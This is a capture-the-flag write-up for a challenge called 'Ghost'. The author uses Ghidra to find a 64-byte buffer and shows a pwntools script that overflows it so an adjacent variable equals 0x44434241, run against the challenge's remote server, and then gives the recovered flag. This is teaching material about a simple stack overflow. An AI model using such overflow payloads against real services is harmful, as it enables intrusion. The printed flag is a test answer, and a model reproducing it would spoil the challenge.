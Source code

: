 # Ghost

> Find the flag.

Download the attachment [here](file/ghost)

## How to Solve

First we will do static analysis with `Ghidra`, and look to main function


[Image extracted text: [Image not found]]


At variable `local_164` is have 64 bytes size so we need filled them and make sure the variable `local_128` is equal to `0x44434241`

This the solver I use

```
from pwn import *

exe = './ghost'
host, port = '139.144.184.150', 4000
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)
context.log_level = 'info'

# io = process(exe)
io = remote(host, port)

offset = b'A'*64

payload = flat([
    offset,
    0x44434241
])

io.sendline(payload)
io.interactive()
```


[Image extracted text: [Image not found]]


And we got flag

```
BDSEC{You_have_been_haunted_by_a_ghost!}
```